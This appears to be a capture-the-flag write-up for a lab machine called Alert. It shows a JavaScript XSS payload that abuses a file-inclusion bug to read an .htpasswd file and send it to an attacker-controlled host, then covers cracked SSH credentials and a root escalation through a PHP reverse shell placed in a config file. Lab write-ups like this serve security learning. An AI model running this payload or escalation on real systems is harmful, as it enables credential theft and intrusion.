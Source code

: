 # Alert

## Nmap

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

## Site enumeration

First off I looked for subdomains and found statistics. It is protected by a http-auth I tried to bruteforce but could not get in.

On the main page I notice 2 things: 1) we can do XSS with the markdown feature 2) There is LFI on the file param. Let's combine this to fetch the statistics password hash

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://<MY_IP>:8000/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We upload the script and get a hash back to our local server i crack it and get creds. albert:manchesterunited

We can login to the statistics page now. But there is nothing there let's try ssh. And we are in!!

## Priv esc

Running netstat -tunlp I found an open port on 8080 lets download the index file. It is called website monitor let's try locate it. We find it in /opt

Looking at the config file we see that it is run by root. So if we upload a php reverse shell we should get root. Let's try we get permissions denied... but if we put it in the config file it works!

We wget the new page and get root!

PAWNDDD

